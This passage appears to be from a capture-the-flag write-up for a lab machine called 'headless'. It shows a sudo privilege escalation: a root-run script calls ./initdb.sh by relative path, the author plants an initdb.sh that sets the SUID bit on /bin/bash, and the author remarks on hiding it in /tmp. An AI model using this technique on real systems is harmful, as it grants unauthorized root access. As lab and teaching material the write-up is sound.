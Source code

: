 ```
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
We don't need a password to run syscheck (important since we don't have one) and it's not an application that sounds familiar so let's investigate further.
```
dvir@headless:~$ ls -la /usr/bin/syscheck
-r-xr-xr-x 1 root root 768 Feb  2 16:11 /usr/bin/syscheck

dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
We cannot write to syscheck but we do have read privileges. Near the bottom, we have the opportunity to run a bash script if the 'initdb.sh' process isn't running. We can quickly verify this by running `sudo syscheck`. We get back the message 'Database service is not running. Starting it...'. This is great news for us and allows us to create the 'initdb.sh' file in our user's home directory (or perhaps /tmp to be more inconspicuous). Once we run `sudo syscheck`, the 'initdb.sh' file will be called as root. In this example, we'll use this opportunity to set `/bin/bash` as a SUID binary.
```
dvir@headless:~$ touch initdb.sh
dvir@headless:~$ echo 'chmod u+s /bin/bash' > initdb.sh
dvir@headless:~$ chmod +x initdb.sh
dvir@headless:~$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.01, 0.00
Database service is not running. Starting it...
```
Checking if we were successful.
```
dvir@headless:~$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash

```
